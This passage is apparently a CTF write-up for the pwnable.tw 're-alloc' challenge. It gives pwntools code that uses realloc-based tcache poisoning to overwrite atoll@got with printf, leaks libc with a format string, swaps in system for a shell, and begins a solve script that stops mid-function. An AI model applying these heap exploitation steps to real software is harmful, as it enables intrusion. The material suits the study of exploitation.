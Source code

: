 
```py
alloc(0, 56)
realloc(0, 0)
realloc(0, 56, p64(exe.got["atoll"]))
alloc(1, 56)  
realloc(1, 72)
free(1)
realloc(0, 88) 
free(0)
```

With this, we have atoll pointers in 0x20 and 0x40 bins. 

Now we simply leak libc with printf - 
```py
alloc(0, 24, p64(exe.plt["printf"]))
p.sendlineafter(b"choice: ", b"1")
p.sendlineafter(b"Index:", b"%9$p")

p.recvuntil(b"0x")
leak = int(p.recvline().strip(),16)
libc.address = leak - 0x1e5760
```
now alloc returned atoll@got address and we just wrote printf plt address at that. The libc offset can be identified using pwndbg by breakpointing at printf call.

Finally, we overwrite atoll with system - 
```py
p.sendlineafter(b"choice: ", b"1")
p.sendlineafter(b"Index:", b"")
p.sendlineafter(b"Size:", b"%55d")
p.sendlineafter(b"Data:", p64(libc.sym.system))
```
Now notice that atoll is overwritten with printf and printf returns number of chars it printed so Index =  `printf("\n")`, which is 1. Size = `printf("%55d")`, which gives us 55 + 1(for \n) = 56, And finally we overwrite the alloted address with system and get the shell!!

## Solve Script
```py
from pwn import *
import time
exe = ELF("./re-alloc_patched")
libc = ELF("./libc.so.6")

context.binary = exe
context.log_level = 'debug'
context.terminal = ['wt.exe', 'wsl.exe', '-d', 'kali-linux']

def conn():
    if args.REMOTE:
        return remote("chall.pwnable.tw", 10106)
    env = {"LD_PRELOAD": libc.path}
    r = None
    if args.GDB:
        r = process([exe.path], env=env)
        gdb.attach(r)
        time.sleep(2)
    else:
        r = process([exe.path])
    return r

p = conn()

def alloc(idx, size, data=b""):
    p.sendlineafter(b"choice: ", b"1")
```